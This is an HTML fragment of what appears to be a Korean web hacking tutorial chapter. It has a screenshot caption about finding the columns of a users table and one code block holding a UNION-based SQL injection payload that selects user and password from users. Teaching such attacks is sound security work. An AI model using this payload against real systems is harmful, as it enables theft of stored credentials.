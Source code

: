 <img src="/Art of Web Hacking/Chapter7/007.png" width="600" height="500"> <br>
</div>스샷. 7<br>
- 사용자(users) 테이블의 칼럼 목록을 알아내는 구문과 입력 결과, user와 password 칼럼이 눈에 띄는군요<br><br>


<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#7DA123">'&nbsp;UNION&nbsp;SELECT&nbsp;user,password&nbsp;from&nbsp;users#</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

<br><div align="center" >
